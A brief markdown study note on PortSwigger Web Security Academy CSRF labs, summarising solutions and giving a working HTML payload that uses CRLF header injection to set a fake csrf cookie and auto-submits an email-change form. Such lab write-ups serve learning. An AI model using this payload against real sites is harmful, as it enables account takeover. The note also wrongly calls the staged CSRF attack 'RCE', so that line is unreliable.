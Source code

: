 # CSRF

## Practitioner
- CSRF where token validation depends on request method
    - Notice that CSRF validation does not exist for GET requests. Use the exploit server to stage a RCE which automatically triggers a GET request to the /change-email endpoint and submits on page load.
- CSRF where token validation depends on token being present
    - Similar exploit, but it's a POST request and simply does not include the CSRF token.
- CSRF where the token is not tied to the user session
    - Similar–– craft a malicious form using the unused CSRF token from another user to trick the server.
- CSRF where token is tied to non-session cookie
- CSRF where token is duplicated in cookie
    - Since the server merely checks if the csrf token matches the cookie, we stage an exploit to update the search query parameter sink to set a fake crsf cookie, and set the csrf token to the same fake value.
    ```
    <form action="https://0ae800630314cfa683893c200074004f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@hacker.net" />
    <input type="hidden" name="csrf" value="fake" />
</form>
<img src="https://0ae800630314cfa683893c200074004f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
    ```